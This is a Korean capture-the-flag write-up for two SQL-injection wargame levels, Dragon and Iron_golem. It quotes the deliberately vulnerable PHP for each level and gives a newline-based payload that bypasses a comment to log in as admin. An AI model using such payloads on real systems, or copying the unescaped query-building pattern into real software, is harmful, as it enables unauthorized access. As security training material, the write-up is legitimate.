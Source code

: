 ## Dragon
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```
### exploit
id값 뒤에 #이 붙어있어 pw에 어떤값을 입력하더라도 적용되지 않는다.
이 문제를 해결하려면 # 다시말해 한줄 주석을 우회해야한다.
```sql
select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'
-> select id from prob_dragon where id='guest'# and pw='%0a and pw='1' or id='admin'%23'
payload = %0a and pw='1' or id='admin'%23
```
이 문제를 해결하는 방법은 #이 한줄 주석인 것을 이용해 %0a로 그 뒤에 있는 값을 다른 줄로 인식하도록 만드는 것이다.<br>
%0a = \n의 URL encoding값이다.
<br>

## Iron_golem
```php
<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit(mysqli_error($db));
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
  highlight_file(__FILE__);
?>
```
### exploit
sleep과 benchmark를 필터링하는 것을 알 수 있다.<br>
이 두 함수는 timebased SQL-I를 시도할 때 사용하는 것이기에 TimeBased를 사용하지 말라는 뜻으로 생각하고 분석을 했다.

